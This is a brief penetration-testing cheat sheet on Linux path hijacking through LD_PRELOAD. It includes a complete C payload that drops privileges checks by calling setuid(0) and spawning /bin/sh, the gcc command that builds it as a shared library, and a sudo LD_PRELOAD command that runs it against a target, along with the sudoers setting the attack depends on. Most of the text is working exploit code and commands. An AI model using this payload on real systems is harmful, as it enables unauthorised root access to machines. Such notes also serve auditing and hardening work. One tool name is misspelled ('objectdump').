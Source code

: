 # Path Hijacking

### LD\_PRELOAD

Check if you can write into the path of privileged binaries, you might be able to abuse the library load order. Check wich functions a binary uses via `objectdump -T`. To use these preload attacks with sudo in `/etc/sudoers` there must be `env_keep += LD_PRELOAD`

#### Preload example payload

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
  unsetenv("LD_PRELOAD");
  setgid(0);
  setuid(0);
  system("/bin/sh");
}
```

#### Compile preload example payload

```bash
gcc -fPIC -shared -o payload.so payload.c -nostartfiles
sudo LD_PRELOAD=/tmp/payload.so <target>
```

When playing with the linker configs run `ldconfig` afterwards or it wont update the linker cache.

